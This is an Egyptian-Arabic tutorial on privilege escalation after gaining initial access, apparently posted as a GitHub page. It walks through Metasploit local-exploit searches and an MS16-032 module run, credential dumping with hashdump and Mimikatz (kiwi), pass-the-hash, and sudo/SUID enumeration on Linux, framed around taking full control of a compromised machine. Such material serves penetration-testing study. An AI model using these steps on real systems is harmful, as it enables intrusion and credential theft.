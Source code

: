 
# **📌 يعني إيه Privilege Escalation؟**

لما بتستغل ثغرة وتاخد **وصول مبدئي (Initial Access)** على الجهاز المستهدف، ممكن تكون الصلاحيات بتاعتك **محدودة**، يعني مش Administrator أو Root. **تصعيد الصلاحيات (Privilege Escalation)** هو إنك تزوّد صلاحياتك عشان تبقى **مدير النظام** وتقدر تتحكم بشكل كامل في الجهاز.

**📌 مثال بسيط:**  
لو اخترقت جهاز **كـ User عادي**، مش هتقدر توصل لملفات حساسة أو تنفذ أوامر خطيرة، لكن لو قدرت تصعد صلاحياتك لـ **Admin أو SYSTEM**، هتقدر تعمل كل حاجة!

---

# **🔥 طرق تصعيد الصلاحيات بعد الاختراق**

## **🟢 1. استغلال الثغرات في النظام (Kernel Exploits)**

🔹 بعض الأنظمة عندها ثغرات تسمح لك تصعد صلاحياتك مباشرة، زي:  
✅ **DirtyCow** في أنظمة Linux  
✅ **MS10-015** و **MS16-032** في Windows

📌 في **Metasploit**، ممكن تستخدم أوامر البحث عن ثغرات تصعيد الصلاحيات كالتالي:

```bash
search exploit/windows/local
search exploit/linux/local
```

🔹 بعد كده تختار الاستغلال المناسب وتنفذه بنفس أسلوب أي استغلال عادي.

---

# **🟢 2. استخراج كلمات المرور المخزنة (Password Dumping)**

لو قدرت توصل لـ **كلمات المرور**، ممكن تسجل دخول بحساب مسؤول مباشرة! 👀  
📌 في **Meterpreter**، تقدر تستخدم الأوامر دي لسحب كلمات المرور:

```bash
hashdump    # لو عندك صلاحيات SYSTEM في ويندوز
kiwi        # استخدام Mimikatz داخل Meterpreter
```

🔹 ولو عايز تجرب كلمات المرور دي على باقي الأجهزة في الشبكة، استخدم **Pass-the-Hash Attack**!

---

# **🟢 3. استغلال خدمات بتشتغ بصلاحيات عالية (Service Exploits)**

🔹 بعض الخدمات على الجهاز بتشتغل بصلاحيات المسؤول، ولو لقيت خدمة ضعيفة، ممكن تستغلها لتصعيد الصلاحيات.  
📌 في **Metasploit**، جرب تبحث عن استغلال للخدمات كده:

```bash
search exploit/windows/local
```

---

### **🟢 4. التلاعب بالملفات الحساسة (Sudo & SUID in Linux, Misconfigurations in Windows)**

🔹 في Linux، لو لقيت **ملف SUID** أو **أمر عنده صلاحيات sudo** بدون كلمة مرور، تقدر تستخدمه عشان تصعد الصلاحيات.  
📌 جرب تشوف الأوامر اللي تقدر تنفذها بـ sudo بدون باسورد:

```bash
sudo -l
```

🔹 ولو لقيت ملف عنده SUID، شغّله كده عشان تشوف لو يقدر يديك صلاحيات أعلى:

```bash
find / -perm -u=s -type f 2>/dev/null
```

---

# **💡 الخلاصة بالمصري:**

1️⃣ **بعد ما تخترق جهاز، ممكن يكون دخولك بصلاحيات قليلة، وده هيمنعك من تنفيذ حاجات كتير.**  
2️⃣ **فيه طرق كتير لتصعيد الصلاحيات، زي استغلال ثغرات النظام، استخراج كلمات المرور، أو تشغيل أوامر بصلاحيات مرتفعة.**  
3️⃣ **لو انت على ويندوز، استخدم `hashdump` أو `kiwi` لسحب كلمات السر.**  
4️⃣ **لو على لينكس، استخدم `sudo -l` و `find / -perm -u=s` عشان تدور على أوامر ممكن تستخدمها بصلاحيات أعلى.**  
5️⃣ **بعد ما تصعد الصلاحيات، هيكون عندك تحكم كامل في النظام وتقدر تتحرك بحرية أكتر!** 🔥

---

# **🛠️ الخطوات العملية لتصعيد الصلاحيات في Metasploit**

✅ **1. البحث عن ثغرات تصعيد الصلاحيات:**

```bash
search exploit/windows/local
search exploit/linux/local
```

✅ **2. تنفيذ استغلال مناسب:**

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
exploit
```

✅ **3. استخراج كلمات المرور:**

```bash
hashdump
kiwi
```

✅ **4. البحث عن خدمات ضعيفة:**

```bash
ps
```

✅ **5. فحص صلاحيات المستخدم:**

```bash
whoami
getuid
```

✅ **6. التحقق من صلاحيات SUDO في Linux:**

```bash
sudo -l
```

✅ **7. البحث عن ملفات SUID في Linux:**

```bash
find / -perm -u=s -type f 2>/dev/null
```

🎯 **بمجرد ما تصعد صلاحياتك، هتتحكم في الجهاز بشكل كامل وتنفذ أي أمر عايزه!** 🔥